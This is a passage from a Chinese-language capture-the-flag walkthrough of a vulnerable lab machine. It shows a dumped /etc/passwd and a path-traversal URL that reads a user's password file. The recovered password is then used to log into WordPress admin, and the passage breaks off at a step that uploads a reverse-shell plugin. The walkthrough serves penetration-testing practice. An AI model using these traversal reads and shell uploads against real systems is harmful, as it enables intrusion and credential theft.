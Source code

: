     gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false 
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false 
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false 
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false 
    syslog:x:104:108::/home/syslog:/bin/false 
    _apt:x:105:65534::/nonexistent:/bin/false 
    messagebus:x:106:110::/var/run/dbus:/bin/false 
    uuidd:x:107:111::/run/uuidd:/bin/false 
    lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false 
    whoopsie:x:109:117::/nonexistent:/bin/false 
    avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false 
    avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false 
    dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false 
    colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false 
    speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false 
    hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false 
    kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false 
    pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false 
    rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false 
    saned:x:119:127::/var/lib/saned:/bin/false 
    usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false 
    victor:x:1000:1000:victor,,,:/home/victor:/bin/bash 
    mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false 
    saket:x:1001:1001:find password.txt file in my directory:/home/saket: 
    sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin 
    ```
    
    发现`saket:x:1001:1001:find password.txt file in my directory:/home/saket:` ，好好好
    
    ```php
    http://192.168.75.137/image.php?secrettier360=../../../home/saket/password.txt
    //
    finaly you got the right parameter
    
    follow_the_ippsec 
    ```
    
    密码应该是`follow_the_ippsec`
    
8. 登录wordpress后台，用户名`victor`，密码`follow_the_ippsec` 
    
    为什么用户名是`victor` ，因为`wordpress/index.php`里面第一条信息就是`victor` 发布的，所以猜测用户名是`victor` ，成功进入后台
    

## 后台利用获得初级shell

1. 进入后台，`plugins` → `Add New` → `upload plugins` ,上传反弹shell文件
    